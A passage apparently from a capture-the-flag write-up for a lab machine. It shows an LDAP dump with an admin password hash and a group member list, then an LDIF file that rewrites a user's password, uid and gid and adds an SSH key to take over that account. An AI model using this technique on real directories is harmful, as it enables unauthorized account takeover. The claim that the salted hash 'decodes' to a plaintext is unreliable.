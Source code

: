 ```
description: LDAP administrator                                                                                      
objectClass: simpleSecurityObject                         
objectClass: organizationalRole                           
cn: lynik-admin                                           
userPassword:: e1NTSEF9MEpaelF3blZJNEZrcXRUa3pRWUxVY3ZkN1NwRjFRYkRjVFJta3c9PQ=
 =                              
 ...
 # domainusers, groups, linux, servers, travel.htb
dn: cn=domainusers,ou=groups,ou=linux,ou=servers,dc=travel,dc=htb
memberUid: frank
memberUid: brian
memberUid: christopher
memberUid: johnny
memberUid: julia
memberUid: jerry
memberUid: louise
memberUid: eugene
memberUid: edward
memberUid: gloria
memberUid: lynik
gidNumber: 5000
cn: domainusers
objectClass: top
objectClass: posixGroup

# search result
search: 2
result: 0 Success

# numResponses: 22
# numEntries: 21
```

That hashed password decodes to "Theroadlesstraveled" which we already knew.

We can edit one of the users to allow us to SSH in under another user id, with a ldif file:

new.ldif:

```
dn: uid=frank,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
replace: userPassword
userPassword: {SSHA}0JZzQwnVI4FkqtTkzQYLUcvd7SpF1QbDcTRmkw==
-
replace: uidNumber
uidNumber: 1000
-
replace: gidNumber
gidNumber: 1000
-
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: (your id_rsa.pub key here)
```
